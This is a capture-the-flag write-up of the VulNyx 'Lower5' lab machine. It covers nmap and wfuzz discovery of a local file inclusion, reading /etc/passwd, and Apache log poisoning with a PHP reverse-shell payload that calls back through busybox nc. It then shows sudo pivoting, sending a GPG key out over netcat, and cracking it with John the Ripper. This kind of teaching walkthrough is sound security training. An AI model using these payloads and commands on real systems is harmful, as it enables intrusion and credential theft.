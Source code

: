 ```yaml
---
title: VulNyx - Lower5 Writeup
date: 2025-05-17 20:51:00 +0530
categories: [Vulnyx, Writeups]
tags: [vulnyx, linux]
---
```


This write-up covers the solution to the low-difficulty machine "Lower5" released on [VulNyx](https://vulnyx.com/). The machine features a Local File Inclusion (LFI) vulnerability paired with log poisoning, ultimately leading to privilege escalation.

## Nmap

```bash

labs/vulnyx/lower5 
❯ nmap -sC -sV -oA lower5 lower.vl 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-22 02:57 EDT
Nmap scan report for lower.vl (192.168.25.5)
Host is up (0.000089s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: vTeam a Corporate Multipurpose Free Bootstrap Responsive template
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:41:41:2B (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.79 seconds
                                                                                                       
```

### Port 80 - HTTP
The site hosted on port 80 uses a script named `page.php`, which includes files based on the `inc` parameter (e.g., `http://192.168.25.10/page.php?inc=about.html`). I suspected a Local File Inclusion (LFI) vulnerability and decided to test it using wfuzz. 

## Local File Inclusion (LFI)

LFI Wordlist Used: [https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt)

```bash
labs/vulnyx/lower5 
❯ wfuzz -c -w file_inclusion_linux.txt -u "http://lower.vl/page.php?inc=FUZZ" --hh=52
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://lower.vl/page.php?inc=FUZZ
Total requests: 2299

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000001815:   200        1862 L   22587 W    256035 Ch   "/var/log/apache2/access.log"                                                                                                                                              
000001016:   200        22 L     26 W       1051 Ch     "/etc/passwd"                                                                                                                                                              

Total time: 1.083493
Processed Requests: 2299
Filtered Requests: 2297
Requests/sec.: 2121.839
                                                                                                                                                                                                                                       
```

### /etc/passwd

```bash
labs/vulnyx/lower5 
❯ curl "http://lower.vl//page.php?inc=/etc/passwd"                            
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
low:x:1000:1000:low:/home/low:/bin/bash
                                       
```

### /var/log/apache2/access.log
Since Apache logs are accessible, making log poisoning a viable path.

```bash
labs/vulnyx/lower5 
❯ curl -s "http://lower.vl//page.php?inc=/var/log/apache2/access.log" | head
zsh: no such file or directory: labs/vulnyx/lower5

192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET / HTTP/1.0" 200 11884 "-" "-"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "OPTIONS / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "POST / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET /.git/HEAD HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET /nmaplowercheck1745305071 HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "OPTIONS / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET /robots.txt HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "POST /sdk HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"

```

## Log Poisoning

### Reverse Shell Injection via User-Agent

We poison the log by sending a malicious `User-Agent` header containing a PHP reverse shell:

```bash
labs/vulnyx/lower5 
❯ curl -s -H "User-Agent: <?php system('busybox nc 192.168.25.4 1234 -e /bin/sh'); ?>" "http://lower.vl/"
```

```bash
labs/vulnyx/lower5 
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.25.4] from (UNKNOWN) [192.168.25.5] 37424
pwd
/var/www/html
whoami
www-data
```
Shell obtained as `www-data`.

## Privilege Escalation

### User flag

```bash
www-data@lower5:/var/www/html$ sudo -l
Matching Defaults entries for www-data on lower5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on lower5:
    (low) NOPASSWD: /usr/bin/bash
```

```bash
www-data@lower5:/var/www/html$ sudo -u low bash 
low@lower5:/var/www/html$ pwd
/var/www/html
low@lower5:/var/www/html$ cd ~
low@lower5:~$ ls
root.gpg  user.txt
low@lower5:~$ cat user.txt 
30a****************************
```

### Root flag
```bash
low@lower5:~$ sudo -l
Matching Defaults entries for low on lower5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User low may run the following commands on lower5:
    (root) NOPASSWD: /usr/bin/pass

```
```bash
low@lower5:/var/www/html$ sudo -u root /usr/bin/pass
Password Store
`-- root
    `-- password
```

Running the `pass` command prompts for a GPG passphrase:

```bash
low@lower5:~$ sudo -u root pass root/password
┌───────────────────────────────────────────────────────────────┐
│ Please enter the passphrase to unlock the OpenPGP secret key: │
│ "administrator (password) <admin@lower5.nyx>"                 │
│ 1024-bit RSA key, ID E70EBB1C2CFFB642,                        │
│ created 2025-04-09 (main key ID 9AD17885DA2449A1).            │
│                                                               │
│                                                               │
│ Passphrase: _________________________________________________ │
│                                                               │
│         <OK>                                   <Cancel>       │
└───────────────────────────────────────────────────────────────┘
```

```bash
labs/vulnyx/lower5 
❯ nc -lp 1212 > root.gpg
```

```bash
low@lower5:~$ nc -w3 192.168.25.4 1212 < root.gpg 
```

#### Cracking the GPG passphrase ([John The Ripper](https://blog.atucom.net/2015/08/cracking-gpg-key-passwords-using-john.html))


```bash
labs/vulnyx/lower5 
❯ gpg2john root.gpg > root_hash

File root.gpg                        
```

```bash
labs/vulnyx/lower5 took 5s 
❯ sudo john --wordlist=rockyou.txt root_hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (administrator)     
1g 0:00:02:11 DONE (2025-05-17 07:49) 0.007629g/s 26.74p/s 26.74c/s 26.74C/s Password1..wateva
Use the "--show" option to display all of the cracked passwords reliably
Session completed.            
```
Recovered password: `Password1`

```bash
low@lower5:~$ sudo -u root /usr/bin/pass root/password
r00tP@zzW0rD123
```

```bash
root@lower5:~# cat root.txt 
008****************************
```